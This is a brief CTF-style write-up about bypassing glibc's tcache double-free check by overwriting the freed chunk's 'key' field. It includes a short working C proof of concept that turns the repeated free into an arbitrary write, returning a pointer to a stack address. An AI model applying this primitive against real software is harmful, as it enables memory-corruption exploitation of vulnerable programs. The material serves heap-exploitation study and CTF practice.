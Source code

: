 # New tcache duplicate
> LongChampion, 23/03/2020

I think I have discovered a new technique to bypass tcache's double free checking.  
Look at this [this](https://github.com/bminor/glibc/blob/master/malloc/malloc.c),
```
[...]
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
[...]
```
you can see that these is a field named `key` and this field is used to "detect double frees" according to the source code. Seriously! So I try to modify this field when the corresponding chunk is freed, and the result is very awesome.

```
#include <stdlib.h>

int main()
{
    long long *a = malloc(0x80 - 8);
    free(a);
    *(a + 1) = 0xdeadbeefcafebabe;
    free(a);
    *(a + 1) = 0xdeadbeefcafebabe;
    free(a);

    long long *first = malloc(0x80 - 8);
    *first = (long long) &a;
    long long *second = malloc(0x80 - 8);
    long long *third = malloc(0x80 - 8);
}
```
As you can see, by modify `key` of a freed tcache chunk, I can free it more than one time. The value `0xdeadbeefcafebabe` is chosen randomly, it just need to differ from the origin value of `key`. I have tested this attack with **GLIBC** 2.31, so I think it will work against all earlier version of **GLIBC** as long as this **GLIBC** have tcache. Further, this vulnerable can lead to an arbitrary write to any address. In the example above, `third` will point to address of `a` in stack.

## Bonus
I have used this attack to solve [House cleaning](https://www.ctfsecurinets.com/challenges#House%20cleaning) challenge at `Securinets Prequals 2K20 CTF`. Really happy with this!
